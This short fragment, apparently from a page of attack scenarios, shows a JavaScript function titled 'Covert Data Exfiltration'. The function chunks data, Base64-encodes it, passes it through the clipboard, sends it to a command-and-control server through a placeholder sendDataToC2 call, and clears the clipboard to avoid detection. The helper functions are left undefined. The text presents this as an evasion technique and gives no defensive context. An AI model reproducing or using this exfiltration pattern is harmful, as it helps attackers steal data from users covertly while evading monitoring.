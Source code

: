 ### Scenario: Covert Data Exfiltration

```javascript
function exfiltrateViaClipboard(data) {
    const chunks = chunkData(data, 1024);
    chunks.forEach((chunk, index) => {
        setTimeout(() => {
            writeToClipboard(btoa(chunk)); // Base64 encode the chunk
            // Simulate a copy operation here
            setTimeout(() => {
                const clipboardContent = readClipboard();
                sendDataToC2(clipboardContent);
                writeToClipboard(""); // Clear clipboard
            }, 1000);
        }, index * 5000); // 5 seconds between chunks
    });
}
```

This scenario demonstrates using the clipboard for covert data exfiltration, mimicking user copy operations and clearing the clipboard after each transfer to minimize detection risk.
